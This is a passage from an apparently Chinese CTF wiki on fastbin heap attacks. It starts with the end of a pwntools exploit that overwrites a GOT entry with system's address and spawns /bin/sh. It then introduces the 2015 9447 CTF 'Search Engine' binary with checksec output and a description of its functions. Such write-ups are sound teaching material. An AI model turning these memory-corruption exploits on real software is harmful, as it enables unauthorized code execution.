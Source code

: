 ```python
    # modify free@got to system addr
    payload = p32(oreo.got['strlen']).ljust(20, 'a')
    add(payload, 'b' * 20)
    log.success('system addr: ' + hex(system_addr))
    #gdb.attach(p)
    message(p32(system_addr) + ';/bin/sh\x00')

    p.interactive()


if __name__ == "__main__":
    exp()

```

当然，该题目也可以使用 `fast bin attack` 中的其它技术来实现，可参考参考文献中的链接。

## 2015 9447 CTF : Search Engine
[题目链接](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/heap/fastbin-attack/2015_9447ctf_search-engine)

### 基本信息

```shell
➜  2015_9447ctf_search-engine git:(master) file search
search: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=4f5b70085d957097e91f940f98c0d4cc6fb3343f, stripped
➜  2015_9447ctf_search-engine git:(master) checksec search
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/fastbin_attack/2015_9447ctf_search-engine/search'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    FORTIFY:  Enabled

```

### 基本功能

程序的基本功能是

- 索引一个句子
  - 大小v0，(unsigned int)(v0 - 1) > 0xFFFD
  - 读取的字符串长度必须和给定的大小相等
  - 每次索引的句子都是直接在直接建立在前面的句子上的。
- 在一个句子中搜索单词
  - 大小v0，(unsigned int)(v0 - 1) > 0xFFFD
- 读取指定长度字符串
  - 如果有回车标记
    - 在指定长度内没有遇到回车，则读完没有设置NULL标记
    - 在指定长度内遇到回车，就截断返回。
  - 没有回车标记
    - 读够指定长度，没有NULL标记结尾。
